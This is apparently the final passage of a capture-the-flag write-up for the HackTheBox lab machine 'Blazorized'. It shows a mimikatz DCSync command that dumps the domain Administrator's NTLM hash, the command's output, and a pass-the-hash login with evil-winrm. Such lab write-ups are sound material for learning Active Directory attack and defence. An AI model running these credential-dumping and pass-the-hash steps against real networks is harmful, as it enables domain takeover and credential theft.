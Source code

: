 We wait a minute for the user to login and catch our reverse shell. From BloodHound we also see that this user is able to perform a DCSync attack.

![](/assets/images/writeups/blazorized/bloodhound-SSA.png)

### DCSync

We upload `mimikatz.exe` and perform the attack and get the hash of the Domain Admin.

```console
C:\Users\Public> .\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:BLAZORIZED.HTB /user:Administrator" "exit"

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 
Password last change : 2/25/2024 11:54:43 AM
Object Security ID   : S-1-5-21-2039403211-964143010-2924010611-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: f55ed1465179ba374ec1cad05b34a5f3

$ evil-winrm -i 10.10.11.22 -u 'Administrator' -H 'f55ed1465179ba374ec1cad05b34a5f3'

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type note.txt

If you enjoyed this machine and want to learn more about DACL attacks, check out the 'DACL Attacks I' and 'DACL Attacks II' modules on HTB Academy.

- Pedant
```
